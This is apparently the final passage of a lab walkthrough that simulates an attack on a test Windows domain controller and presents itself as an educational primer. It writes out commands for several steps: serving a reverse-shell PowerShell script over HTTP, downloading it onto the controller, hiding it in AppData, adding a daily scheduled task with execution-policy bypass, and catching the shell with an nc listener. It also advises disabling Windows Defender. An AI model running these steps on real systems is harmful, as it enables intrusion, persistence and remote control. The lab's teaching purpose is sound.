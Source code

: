 - Save the file.
- Use a Python web server to host the script from [project-x-attacker]:
  ```
  python -m http.server
  ```
- On [project-x-dc], navigate to `http://10.0.0.50:8000` and download the `reverse.ps1` file.
- Move the file to:
  ```
  C:\Users\Administrator\AppData\Local\Microsoft\Windows\reverse.ps1
  ```
- Create a scheduled task to run the reverse shell daily at 12:00 PM:
  ```
  schtasks /create /tn "PersistenceTask" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\Users\Administrator\AppData\Local\Microsoft\Windows\reverse.ps1" /sc daily /st 12:00
  ```
- At 12:00 PM, open a listener on port 4444 on [project-x-attacker]:
  ```
  nc -lvnp 4444
  ```
- On [project-x-dc], execute:
  ```
  Set-ExecutionPolicy Unrestricted -Scope Process
  powershell.exe -executionpolicy -bypass .\reverse.ps1
  .\reverse.ps1
  ```
- You should see “Connected to reverse shell!” on the listener.
- *Note:* Windows Defender may block this; disable it if necessary.

---

## Conclusion + Next Steps

And with this, we have finished our attack from Initial Access to Breached.  
Now, is this scenario real-world? No. Not even close.  
This lab’s intention is to serve as a primer for how threat actors approach compromising a target organization. With various tools, techniques, and procedures, threat actors can leverage their skills, open-source knowledge, and even LLMs to achieve their objectives.

---

